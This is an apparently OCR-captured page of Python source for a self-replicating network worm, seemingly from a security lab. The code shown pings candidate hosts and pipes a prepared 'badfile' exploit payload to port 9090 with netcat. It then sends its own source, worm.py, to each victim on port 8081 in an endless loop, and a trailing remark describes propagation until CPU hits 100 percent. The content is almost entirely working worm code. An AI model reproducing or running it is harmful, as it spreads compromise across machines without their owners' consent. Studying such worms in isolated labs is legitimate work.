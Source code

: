 ```py
                print(f"{ipaddr} is not alive", flush=True)
                continue
            else:
                print(f"*** {ipaddr} is alive, launch the attack", flush=True)
                return ipaddr
        except subprocess.CalledProcessError:
            print(f"{ipaddr} is not alive (ping failed)", flush=True)
            continue

############################################################### 

print("The worm has arrived on this host ^_^", flush=True)

# This is for visualization. It sends an ICMP echo message to 
# a non-existing machine every 2 seconds.
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)

# Create the badfile 
createBadfile()

# Launch the attack on other servers
while True:
    targetIP = getNextTarget()

    # Send the malicious payload to the target host
    print(f"**********************************", flush=True)
    print(f">>>>> Attacking {targetIP} <<<<<", flush=True)
    print(f"**********************************", flush=True)
    
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], shell=True)

    # Give the shellcode some time to run on the target host
    time.sleep(3)

    subprocess.Popen([f"cat worm.py | nc -w5 {targetIP} 8081"], shell=True)

    # Sleep for 10 seconds before attacking another host
    time.sleep(10) 
```

There are also some prints confirming the propagation through the various nodes until it reaches 100 percentage CPU usage and the terminal.

